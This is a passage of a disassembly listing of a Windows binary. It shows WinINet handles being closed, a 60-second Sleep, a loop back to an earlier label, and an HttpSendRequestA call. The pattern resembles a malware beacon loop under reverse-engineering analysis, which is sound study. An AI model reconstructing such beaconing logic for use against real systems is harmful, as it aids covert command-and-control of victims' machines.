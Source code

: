                  20 40 00
        00401af6 ff 75 ec        PUSH       dword ptr [EBP + local_18]                       HANDLE hObject for CloseHandle
        00401af9 8b 35 08        MOV        ESI,dword ptr [->KERNEL32.DLL::CloseHandle]      = 0000225c
                 20 40 00
        00401aff ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b01 ff 75 d8        PUSH       dword ptr [EBP + local_2c]                       HANDLE hObject for CloseHandle
        00401b04 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b06 ff 75 dc        PUSH       dword ptr [EBP + local_28]                       HANDLE hObject for CloseHandle
        00401b09 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b0b ff 75 e8        PUSH       dword ptr [EBP + local_1c]                       HANDLE hObject for CloseHandle
        00401b0e ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b10 ff 75 98        PUSH       dword ptr [EBP + local_6c]                       HANDLE hObject for CloseHandle
        00401b13 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b15 ff 75 94        PUSH       dword ptr [EBP + local_70]                       HANDLE hObject for CloseHandle
        00401b18 ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b1a ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401b1d 8b 35 c4        MOV        ESI,dword ptr [->WININET.DLL::InternetCloseHan   = 00002330
                 20 40 00
        00401b23 ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401b25 ff 75 e0        PUSH       dword ptr [EBP + local_24]
        00401b28 ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401b2a ff 75 d4        PUSH       dword ptr [EBP + local_30]
        00401b2d ff d6           CALL       ESI=>WININET.DLL::InternetCloseHandle
        00401b2f 68 60 ea        PUSH       0xea60                                           DWORD dwMilliseconds for Sleep
                 00 00
        00401b34 ff 15 00        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00002248
                 20 40 00
        00401b3a e9 ca f9        JMP        LAB_00401509
                 ff ff
                             LAB_00401b3f                                    XREF[2]:     00401abe(j), 00401ad5(j)
        00401b3f a1 40 31        MOV        EAX,[DAT_00403140]                               = 00627965h
                 40 00
        00401b44 89 45 f0        MOV        dword ptr [EBP + local_14],EAX
        00401b47 8d 45 f0        LEA        EAX=>local_14,[EBP + -0x10]
        00401b4a 50              PUSH       EAX                                              char * _Str for strlen
        00401b4b e8 90 00        CALL       MSVCRT.DLL::strlen                               size_t strlen(char * _Str)
                 00 00
        00401b50 59              POP        ECX
        00401b51 50              PUSH       EAX
        00401b52 8d 45 f0        LEA        EAX=>local_14,[EBP + -0x10]
        00401b55 50              PUSH       EAX
        00401b56 53              PUSH       EBX
        00401b57 53              PUSH       EBX
        00401b58 ff 75 f8        PUSH       dword ptr [EBP + local_c]
        00401b5b ff 15 c8        CALL       dword ptr [->WININET.DLL::HttpSendRequestA]      = 0000231c
                 20 40 00
        00401b61 ff 75 ec        PUSH       dword ptr [EBP + local_18]                       HANDLE hObject for CloseHandle
        00401b64 8b 35 08        MOV        ESI,dword ptr [->KERNEL32.DLL::CloseHandle]      = 0000225c
                 20 40 00
        00401b6a ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle
        00401b6c ff 75 d8        PUSH       dword ptr [EBP + local_2c]                       HANDLE hObject for CloseHandle
        00401b6f ff d6           CALL       ESI=>KERNEL32.DLL::CloseHandle